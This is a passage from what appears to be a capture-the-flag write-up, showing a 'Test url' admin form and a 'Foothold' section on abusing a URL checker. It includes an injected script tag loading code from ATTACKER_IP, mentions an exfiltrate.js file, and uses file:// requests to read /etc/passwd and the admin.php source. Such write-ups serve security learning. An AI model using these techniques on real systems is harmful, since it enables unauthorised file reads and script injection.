 ```html
    <div class="one-half column" style="margin-top: 25%">
      <h4>Test url</h4>
      <form action="admin.php" method="POST">
      <div class="six columns"> <label>url</label>
      <input type="text" name="url" placeholder="url"></div>
      <div><input name="submit" type="submit"></div>
      </form>
      </div>
  </div>
</div>
```

## Foothold

Looking into this, it looks like a URL checker service where it takes a URL and makes a request? To check what happens, i created another user (no need for this, i could replace the exfiltrate.js file), and it is `<script src="http://ATTACKER_IP/f/script.js"></script>` where i tried to make a request to myself and it worked.
Making a request to /test endpoint on my host, i get the following from the server. ![Alt text](./assets/sanity_chk.png)

I tried file scheme to and got the /etc/password file's content which was useless as it didn't have any user other than root (Docker?). I also tried reading the source-code of admin.php (with the PHP, not just HTML) with `file:///var/www/html/harm/to/self/admin.php` which gave me ![Alt text](./assets/file_admin.png)

